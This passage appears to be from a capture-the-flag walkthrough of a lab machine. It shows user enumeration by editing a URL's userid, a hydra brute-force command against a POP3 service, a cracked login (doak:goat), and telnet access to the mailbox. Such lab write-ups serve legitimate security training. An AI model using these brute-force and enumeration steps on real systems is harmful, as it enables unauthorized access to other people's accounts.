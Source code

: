 - While browsing the website, we noticed that other users exist.
- By changing the `userid` in the URL, we can see other usernames.
    - **http://severnaya-station.com/gnocertdir/blog/index.php?userid=5**

![doak.png](./img/doak.png)

- We can try to brute-force the new users password

```bash
hydra -l doak -P /usr/share/wordlists/fasttrack.txt -s 55007 pop3://172.30.170.141 -t10 -I
```

![doak-pass.png](./img/doak-pass.png)

> **doak:goat**
> 
- Back to Mail-Server and try to read his emails

```bash
telnet 172.30.170.141 55007
```
